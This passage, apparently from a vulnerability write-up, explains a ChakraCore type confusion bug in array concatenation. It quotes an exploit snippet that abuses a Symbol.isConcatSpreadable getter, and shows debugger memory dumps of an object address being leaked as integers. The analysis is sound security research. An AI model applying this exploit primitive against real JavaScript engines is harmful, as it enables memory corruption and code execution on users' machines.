 According to the comments of the exploit:

```javascript
// Here we define a custom getter for the Symbol.isConcatSpreadable property
// In it we change the type of qq by simply assigning an object to it
fakeProp = { get: function() {
    b[1] = obj;
    qq[0] = obj; // qq was JavascriptNativeIntArray, now changed to JavascriptArray
    return true;
}};

// set b's Symbol.isConcatSpreadable to fakeProp
Object.defineProperty(b, Symbol.isConcatSpreadable, fakeProp);
```

So when `aItem` = `b` and ran to line `JavascriptOperators::IsConcatSpreadable(aItem)`, it will change `pDestArray`'s data type from `JavascriptNativeIntArray` to `JavascriptArray`. It'll also change `b`'s data type into `JavascriptArray`, so later it can run to line `JavascriptNativeIntArray::ConvertToVarArray(pDestArray);`.

We can see that [JavascriptNativeIntArray::ConvertToVarArray](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L1832)'s first parameter is a `JavascriptNativeIntArray` data type. But here we pass a `JavascriptArray` data type variable instead, which leads to a **type confusion** vulnerability. 

When `ConvertToVarArray(pDestArray)` was called, the `pDestArray` has the following memory layout:

```
gef➤  tel 0x00007ffff03d8320
0x00007ffff03d8320│+0x00: 0x0000000300000000
0x00007ffff03d8328│+0x08: 0x0000000000000011
0x00007ffff03d8330│+0x10: 0x0000000000000000
0x00007ffff03d8338│+0x18: 0x00007ffff03d8140  <-- dest[0]
0x00007ffff03d8340│+0x20: 0x0001000000000001  <-- dest[1]
0x00007ffff03d8348│+0x28: 0x0001000000000002  <-- dest[2]
0x00007ffff03d8350│+0x30: 0x8000000280000002
0x00007ffff03d8358│+0x38: 0x8000000280000002
0x00007ffff03d8360│+0x40: 0x8000000280000002
0x00007ffff03d8368│+0x48: 0x8000000280000002
```

Here `dest[0]` stores the object's address. Since the function "think" that `pDestArray` is a `JavscriptNativeIntArray`, it will take first three elements ( `0xf03d8140`, `0x7ffff` and `0x1` ) and convert them into the form of the `JavascriptArray` elements. After the conversion the memory layout will become something like:
```
gef➤  tel 0x00007ffff03d83c0
0x00007ffff03d83c0│+0x00: 0x0000000300000000
0x00007ffff03d83c8│+0x08: 0x0000000000000011
0x00007ffff03d83d0│+0x10: 0x0000000000000000
0x00007ffff03d83d8│+0x18: 0x00010000f03d8140  <-- dest[0] ( dest = c array )
0x00007ffff03d83e0│+0x20: 0x0001000000007fff  <-- dest[1]
0x00007ffff03d83e8│+0x28: 0x0001000000000001  <-- dest[2]
```
